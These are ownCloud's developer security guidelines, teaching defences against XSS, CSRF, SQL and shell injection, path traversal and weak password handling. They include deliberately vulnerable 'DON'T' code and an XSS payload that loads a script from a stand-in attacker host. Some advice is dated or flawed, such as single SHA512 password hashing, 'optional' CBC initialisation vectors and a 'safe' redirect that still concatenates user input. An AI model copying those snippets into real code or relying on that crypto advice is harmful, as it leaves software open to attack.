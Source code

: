 Security Guidelines
===================

.. sectionauthor:: Bernhard Posselt <dev@bernhard-posselt.com>, Lukas Reschke <lukas@statuscode.ch>, Matthew Setter <matthew@matthewsetter.com>
   
Introduction
------------

These security guidelines are for both core and application developers. 
They:

- highlight some of the most common security problems and how to prevent them.
- give you some best practices and tips about security when developing with ownCloud.

Please use them to assess how secure your application is.

.. note:: **Program defensively**: for instance always check for CSRF or escape strings, even if you do not need it. Doing so prevents future problems where you might miss a change that leads to a security hole.

.. note:: All application Framework security features depend on the call of the controller through :php:meth:`OCA\\AppFramework\\App::main`. If the controller method executes directly, security checks are not performed!

General
-------

Source Code Analysis
~~~~~~~~~~~~~~~~~~~~

Before releasing an application and after security-related changes, the complete source code **must** be scanned. 
We currently use `RIPS`_ to perform scans.
Affected Software:

- Core
- All apps in core
- All apps in the marketplace

Architecture
------------

Security Related Comments in Source Code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- Security-related comments in source code are forbidden. 
  Source code means PHP code and especially JavaScript code.
  Security-related comments are:

  - Usernames and passwords
  - Descriptions of processes and algorithms

- Before deploying your code, `use a minifier for JavaScript and CSS files`.

HTTP or HTTPS
~~~~~~~~~~~~~

- Only use HTTPS for rendering content. 
- Avoid switching between HTTP and HTTPS, which creates `mixed-content pages`_. 

Security Related Actions
~~~~~~~~~~~~~~~~~~~~~~~~

- All security-related actions must take place on the server. 
  This includes *validation*, *authentication*, and *authorization*. 
  Authorization implementations on the client side are only useful for providing a better user experience. 
- Don't hard-code passwords or encryption keys in the source code. 
  They have to be in config files and should be user-generated.

Browser plugins
~~~~~~~~~~~~~~~

Don't use browser plugins such as:

- ActiveX Controls
- Java Applets
- Flash

Least Privilege Principle
~~~~~~~~~~~~~~~~~~~~~~~~~

- Every application should only have the rights that it needs. 
- An application should not access core database tables. 
  If it needs data from these tables, it should call an API endpoint to retrieve it.

Error Messages and Error Pages
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- Don't show sensitive information on error pages or in error messages. 
  Sensitive information includes:

  - Username/password
  - E-Mail addresses
  - Version numbers
  - Paths

- Don't show overly detailed information in error messages or on error pages.

  **Example:**

  If a user can't login, don't show an error like: "*Your password is wrong*". 
  Instead, show a message such as: "*There was an error with your credentials*". 
  If you print "*Your password is wrong*" then an attacker knows the username was a valid one in the ownCloud installation.

- Consider implementing a `CAPTCHA`_ to prevent brute force attacks, after five failed login attempts.

Session ID Transport
~~~~~~~~~~~~~~~~~~~~

- Don't use a session id as a GET Parameter, because these persist in browser history.
  Use cookies instead.

New Session ID After a Successful Login
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- After a successful login, regenerate the session id to prevent `session fixation attacks`_. 
- If you have to switch between HTTPS and HTTP, you should change the session id, because an attacker could have already read the session id.

Access Protection With Authorization Checks
-------------------------------------------

- Every request to the server must check if the user has the authorization to perform this request. 
  We do not recommend running these on the client-side, as they can be avoided. 
  However, client-side checks can improve the user's experience.

Best Practices
--------------

Use of the eval Function 
~~~~~~~~~~~~~~~~~~~~~~~~~

- Don't use either PHP's or JavaScript's ``eval`` functions — especially not with user-supplied data.

Input Validation
~~~~~~~~~~~~~~~~

- All user-supplied data, ``$_SERVER``, and ``$_COOKIE`` variables **must** be validated. 
  All these contain data which can be changed (or forged) by the client.
- Sanitize any supplied script code. 

**Example:**

If you expect to receive an integer id as a GET parameter, then always explicitly cast it into an integer using the cast operator ``(int)``, because all ``$_REQUEST`` parameters are strings. 
However, if you expect text as a parameter, use `PHP's htmlspecialchars function`_ with ``ENT_QUOTES`` or ``strip_tags`` to prevent `Cross-site Scripting (XSS) attacks`_.

.. code-block:: php

  <?php

  $neu = htmlspecialchars("<a href='test'>Test</a>", ENT_QUOTES);
  echo $neu; // &lt;a href=&#039;test&#039;&gt;Test&lt;/a&gt;

.. code-block:: php 

  <?php

  $text = '<p>Test-Absatz.</p><!-- Kommentar --> <a href="#fragment">Anderer Text</a>';
  echo strip_tags($text);
  echo "\n";

**Output:**

.. code-block:: console 

  Test-Absatz. Anderer Text
  <p>Test-Absatz.</p> <a href="#fragment">Anderer Text</a>

Do the validation **before** all other actions.

Path Traversal and Path Manipulation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- Don't use user-supplied data to build path names, if you need to access the file system. 
  You have to check the input parameters for null bytes (``\0``), the links to the current and parent directory on UNIX/Linux filesystems (``.`` and ``..``), and empty strings.

Prevent Command Injection
~~~~~~~~~~~~~~~~~~~~~~~~~

- Use `PHP's escapeshellarg() function`_, if your input parameters are arguments for `exec()`_, `popen()`_, `system()`_, or the backtick (`````) operator.

  .. code-block:: php 

    <?php

    system('ls '.escapeshellarg($dir));

- If you do not know how many arguments your application receives, then use the PHP function `escapeshellcmd()`_ to escape the whole command.

  .. code-block:: php

    <?php
    $command = './configure '.$_POST['configure_options'];

    $escaped_command = escapeshellcmd($command);

    system($escaped_command);

Output Escaping
~~~~~~~~~~~~~~~

- All input parameters printed out in the response should be escaped. 
- Do not use ``print_unescaped()`` in ownCloud templates, use ``p()`` instead. 
- Use ``$jQuery.text()``, if you have to output text in JavaScript . 
- Use ``$jQuery.html()``, if you want to output HTML, . 
  A better option is to use a tool like `HTMLPurifier`_.

High Sensitive Information in GET Request
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- You should not use sensitive information, like passwords or usernames, in unprotected requests. 
- All requests containing sensitive information should be protected with HTTPS.

Prevent HTTP-Header-Injection (HTTP Response Splitting)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- To prevent `HTTP Response Splitting`_, check all request variables for ``%0d`` (CR) and ``%0a`` (LF), if they are parameters provided to `PHP's header() function`_.
  This is because an attacker can deface your website, such as redirect the request to a phishing site or executing an XSS attack, by performing header manipulation.

Changes on the Document Object Model (DOM)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Don't use unvalidated user input, if your code changes the DOM.

.. warning:: You should never trust user input.

Prevent SQL-Injection
~~~~~~~~~~~~~~~~~~~~~

- Use the escape functions for your database to prevent `SQL Injection attacks`_, if you have to pass parameters to a SQL query. 
  In ownCloud you must use the `QueryBuilder`_.

Data Storage
------------

Persistent Storages on Client Side
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- Don't save highly sensitive data in persistent storage on the client side. 
  Persistent data storage includes:

  - `Persistent HTTP cookies`_
  - `Flash cookies`_
  - `HTML5 Web-Storage`_
  - `HTML5 Index DB`_

Release all Resources in Case of an Error
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- All resources, such as database and file locks, must be released when errors occur. 
  Doing so prevents the server from being subject to `denial-of-service (DOS) attacks`_.

Cryptography
------------

Symmetric Encryption Methods
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- If you use symmetric encryption methods in your code, use the following encryption types:

  - AES with a key length of 256
  - SERPENT with a key length of 256

- For block ciphers use the following modes:

  - CFB (cipher feedback mode)
  - CBC (cipher block chaining mode)

.. note:: 
   CFB mode requires an initialization vector (IV) to the respective cipher
   function. Whereas in CBC mode, supplying one is optional. The IV must be
   unique and must be the same when encrypting and decrypting. Use `the PHP
   crypt library`_ with `libmcrypt`_ greater 2.4.x.

Asymmetric Encryption Methods
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- If you use asymmetric encryption methods, use RSA encryption with a key length of 4096.

Hash Algorithms
~~~~~~~~~~~~~~~

- If you need a hash function in PHP, use the SHA512 hash algorithm. 
- You can use `PHP's crypt() function`_, but only with a strong salt.
- Don't use *MD5*, *SHA1* or *SHA256*. 
  These types of algorithms are designed to be very fast and efficient. 
  However, with modern techniques and computer equipment, it has become trivial to brute force the output of these algorithms to discover the original input.

Cookies
-------

Secure Flag
~~~~~~~~~~~

- If you use HTTPS to protect requests, then use `the secure flag`_ for your cookies.

HTTP Only
~~~~~~~~~

- If you do not have to access your cookie content in JavaScript, then set `the HttpOnly flag`_ on every cookie.

Path
~~~~

- If possible, set a path for a cookie. 
  Doing so ensures that the cookie is only valid for requests using the provided path.

Passwords
---------

The following chapter is not only for developers but also for admins and end-users.

Charset of Passwords 
~~~~~~~~~~~~~~~~~~~~~

- The charset of a password should contain *characters*, *numbers*, and *special characters*.
- Characters should be both upper and lowercase.

Password Length
~~~~~~~~~~~~~~~

- All passwords should have a minimum length of eight characters and contain numbers and special characters. 
  These requirements must be validated by the application.

Password Quality
~~~~~~~~~~~~~~~~

- If the user can choose his password for the first time, the quality of a password should be displayed graphically.

Password Input
~~~~~~~~~~~~~~

- If a user can input his password into an input field, the input field **must** be of type "password". 
- If an error occurs, don't fill the password field automatically when displaying an error message.

Save Passwords
~~~~~~~~~~~~~~

- Don't save passwords in clear text. 
  Use a `salted hash`_

Default and Initial Passwords
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- Avoid using both default and initial passwords. 
  If you have to use either, you have to make sure that the password is changed by the user on the first call to the application.

User Interface
--------------

Input Auto-completion
~~~~~~~~~~~~~~~~~~~~~

- Auto-complete must be disabled for all input fields which receive sensitive data.
  Sensitive data includes:

  - Username
  - Password
  - Credit card information
  - Banking information

- For text input fields use ``autocomplete="off"`` or use a dynamically generated field name.

- For password fields use: 

  .. code-block:: html

    <input name="pass" type="password" autocomplete="new-password" />

Attack Vectors
--------------

Auth bypass / Privilege escalations
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Auth bypass/privilege escalations happen when users can perform unauthorized actions.
ownCloud offers three simple checks:

* **OCP\\JSON::checkLoggedIn()**: Checks if the logged in user is logged in
* **OCP\\JSON::checkAdminUser()**: Checks if the logged in user has admin privileges
* **OCP\\JSON::checkSubAdminUser()**: Checks if the logged in user has group admin privileges

These checks are already automatically performed, by the application framework, for each request. 
If they are not required, they have to be *explicitly* turned off by using annotations above your controller method. 
See :doc:`../app/fundamentals/controllers`.
Additionally, always check if the user has the right to perform that action.

Clickjacking
~~~~~~~~~~~~

`Clickjacking <http://en.wikipedia.org/wiki/Clickjacking>`_ tricks the user to click into an invisible iframe to perform an arbitrary action (e.g., deleting a user account).

To prevent such attacks ownCloud sends the `X-Frame-Options` header to all template responses. 
Don't remove this header unless you need to!

This functionality is built into ownCloud when `ownCloud templates <https://doc.owncloud.org/server/latest/developer_manual/app/templates.html>`_ or `Twig Templates`_ are used.

Code executions / File inclusions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Code execution means that an attacker can include an arbitrary PHP file. 
This PHP file runs with all the privileges granted to the normal application and can do an enormous amount of damage.
Code executions and file inclusions can be easily prevented by never allowing user-input to run through the following functions:

- **include()**
- **require()**
- **require_once()**
- **eval()**
- **fopen()**

.. note:: 
   **Never** allow the user to upload files into a folder which is reachable from the URL!

**DON'T**

.. code-block:: php

  <?php
  require("/includes/" . $_GET['file']);

.. note:: 
   If you have to pass user input to a potentially dangerous function, double check to be sure that there is no other option available. 
   If there is no other option, sanitize every user parameter and ask people to audit your sanitize functions.

Cross site request forgery
~~~~~~~~~~~~~~~~~~~~~~~~~~

Using `CSRF <http://en.wikipedia.org/wiki/Cross-site_request_forgery>`_ one can trick a user into executing a request that he did not want to make. 
Thus every POST and GET request needs to be protected against it. 
The only places where no CSRF checks are needed are in the main template, which is rendering the application, or in externally callable interfaces.

.. note:: Submitting a form is also a POST/GET request!

To prevent CSRF in an app, be sure to call the following method at the top of all your files:

.. code-block:: php

  <?php
  OCP\JSON::callCheck();

If you are using the application Framework, every controller method is automatically checked for CSRF unless you explicitly exclude it by setting the ``@NoCSRFRequired`` annotation before the controller method, see :doc:`../app/fundamentals/controllers`

Cross site scripting
~~~~~~~~~~~~~~~~~~~~

`Cross-site scripting <http://en.wikipedia.org/wiki/Cross-site_scripting>`_ happens when user input is passed directly to templates. A potential attacker might be able to inject HTML or JavaScript into the page to steal the user's session, log keyboard entries, or perform DDOS attacks on other websites and other malicious actions.

Despite the fact that ownCloud uses Content-Security-Policy to prevent the execution of inline JavaScript code developers are still required to prevent XSS. 
CSP is another layer of defense that is not implemented in all web browsers.

To prevent XSS vulnerabilities in your application, you have to sanitize both the templates *and* all JavaScript scripts which perform DOM manipulation.

Templates
~~~~~~~~~

Let's assume you use the following example in your application:

.. code-block:: php

  <?php
  echo $_GET['username'];

An attacker might now easily send the user a link to ``app.php?username=<script src="attacker.tld"></script>``, to take control of the user account. 
The same problem occurs when outputting content from the database, or any other location that is writable by users.
Another attack vector that is often overlooked is XSS vulnerabilities in ``href`` attributes. 
HTML allows for executing JavaScript in ``href`` attributes like this::

    <a href="javascript:alert('xss')">

To prevent XSS in your app, never use ``echo``, ``print()`` or ``<\%=``, use ``p()`` instead.
Doing so sanitizes input. 
Also **validate URLs to start with the expected protocol** (starts with "http" for instance)!

.. note:: 
   Should you ever need to print something unescaped, double check if it is necessary. 
   If there is no other way (e.g., when including sub-templates) use `print_unescaped`  with care.

JavaScript
~~~~~~~~~~

Avoid manipulating HTML directly via JavaScript. 
Doing so often leads to XSS vulnerabilities since people often forget to sanitize variables.
For example:

.. code-block:: js

  var html = '<li>' + username + '</li>"';

If you want to use JavaScript for something like this use `escapeHTML` to sanitize the variables:

.. code-block:: js

  var html = '<li>' + escapeHTML(username) + '</li>';

An even better way to make your application safer is to use the jQuery built-in function **$.text()**, instead of **$.html()**.

**DON'T**

.. code-block:: js

  messageTd.html(username);

**DO**

.. code-block:: js

  messageTd.text(username);

It may also be wise to choose a proper JavaScript framework, like AngularJS, which automatically handles JavaScript escaping for you.

Directory Traversal
~~~~~~~~~~~~~~~~~~~

Very often, developers forget about sanitizing the file path (such as removing all ``\\`` and ``/``). 
Doing so allows an attacker to traverse through directories on the server and opens several potential attack vendors, which include *privilege escalations*, *code executions*, and *file disclosures*.

**DON'T**

.. code-block:: php

  <?php
  $username = OC_User::getUser();
  fopen("/data/" . $username . "/" . $_GET['file'] . ".txt");

**DO**

.. code-block:: php

  <?php
  $username = OC_User::getUser();
  $file = str_replace(array('/', '\\'), '',  $_GET['file']);
  fopen("/data/" . $username . "/" . $file . ".txt");

.. note:: PHP also interprets the backslash (\\) in paths, don't forget to replace it too!

Shell Injection
~~~~~~~~~~~~~~~

`Shell Injection <http://en.wikipedia.org/wiki/Code_injection#Shell_injection>`_ occurs if PHP code executes shell commands (e.g., running a latex compiler). 
Before doing this, check if there is a PHP library that already provides the needed functionality. 
If you really need to execute a command be aware that you have to escape every user parameter passed to one of these functions:

- **exec()**
- **shell_exec()**
- **passthru()**
- **proc_open()**
- **system()**
- **popen()**

.. note:: Please require/request additional programmers to audit your escape function.

Without escaping the user input, this allows an attacker to execute arbitrary shell commands on your server.
PHP offers the following functions to escape user input:

- **escapeshellarg()**: Escape a string to be used as a shell argument
- **escapeshellcmd()**: Escape shell metacharacters

**DON'T**

.. code-block:: php

  <?php
  system('ls '.$_GET['dir']);

**DO**

.. code-block:: php

  <?php
  system('ls '.escapeshellarg($_GET['dir']));

Sensitive data exposure
~~~~~~~~~~~~~~~~~~~~~~~

Always store user data or configuration files in safe locations, e.g., **owncloud/data/** and not in the web root, where they are accessible by anyone using a web browser.

SQL Injection
~~~~~~~~~~~~~

`SQL Injection <http://en.wikipedia.org/wiki/SQL_injection>`_ occurs when SQL query strings are concatenated with variables.
To prevent this, always use prepared queries:

.. code-block:: php

  <?php
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $query = \OCP\DB::prepare($sql);
  $params = array(1);
  $result = $query->execute($params);

If the application Framework is used, write SQL queries like this in the class that extends the Mapper:

.. code-block:: php

  <?php
  // inside a child mapper class
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $params = array(1);
  $result = $this->execute($sql, $params);

Unvalidated redirects
~~~~~~~~~~~~~~~~~~~~~

This is more of an annoyance than a critical security vulnerability since it may be used for social engineering or phishing.
Before redirecting, always validate the URL if the requested URL is on the same domain or is an allowed resource.

**DON'T**

.. code-block:: php

  <?php
  header('Location:'. $_GET['redirectURL']);

**DO**

.. code-block:: php

  <?php
  header('Location: https://example.com'. $_GET['redirectURL']);

Getting Help
------------

If you need help to ensure that a function is secure, please ask on our `mailing list <https://mailman.owncloud.org/mailman/listinfo/devel>`_ or in IRC channel **#owncloud-dev** on **irc.freenode.net**.

.. Links
   
.. _Twig Templates: https://twig.symfony.com/
.. _RIPS: http://rips-scanner.sourceforge.net/
.. _CAPTCHA: https://en.wikipedia.org/wiki/CAPTCHA
.. _the HttpOnly flag: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
.. _the eval function: http://php.net/manual/en/function.eval.php 
.. _PHP's htmlspecialchars function: http://php.net/manual/en/function.htmlspecialchars.php
.. _PHP's escapeshellarg() function: http://php.net/manual/en/function.escapeshellarg.php
.. _exec(): http://php.net/manual/en/function.exec.php
.. _popen(): http://php.net/manual/en/function.popen.php
.. _system(): http://php.net/manual/en/function.system.php
.. _escapeshellcmd(): http://php.net/manual/en/function.escapeshellcmd.php
.. _HTMLPurifier: http://htmlpurifier.org
.. _PHP's header() function: http://php.net/manual/en/function.header.php
.. _Persistent HTTP cookies: http://www.allaboutcookies.org/cookies/cookies-the-same.html
.. _Flash cookies: http://www.popularmechanics.com/technology/security/how-to/a6134/what-are-flash-cookies-and-how-can-you-stop-them/
.. _HTML5 Web-Storage: https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API
.. _HTML5 Index DB: https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API
.. _libmcrypt: http://mcrypt.sourceforge.net
.. _the PHP crypt library: http://php.net/manual/en/function.crypt.php
.. _PHP's crypt() function: http://php.net/manual/en/function.crypt.php
.. _denial-of-service (DOS) attacks: https://en.wikipedia.org/wiki/Denial-of-service_attack
.. _salted hash: https://crackstation.net/hashing-security.htm
.. _QueryBuilder: https://github.com/owncloud/core/blob/master/lib/private/DB/QueryBuilder/QueryBuilder.php
.. _the secure flag: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie
.. _mixed-content pages: https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content 
.. _session fixation attacks: https://www.owasp.org/index.php/Session_fixation 
.. _Cross-site Scripting (XSS) attacks: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) 
.. _HTTP Response Splitting: https://www.owasp.org/index.php/HTTP_Response_Splitting
.. _SQL Injection attacks: https://www.owasp.org/index.php/SQL_Injection
.. _use a minifier for JavaScript and CSS files: http://www.minifier.org
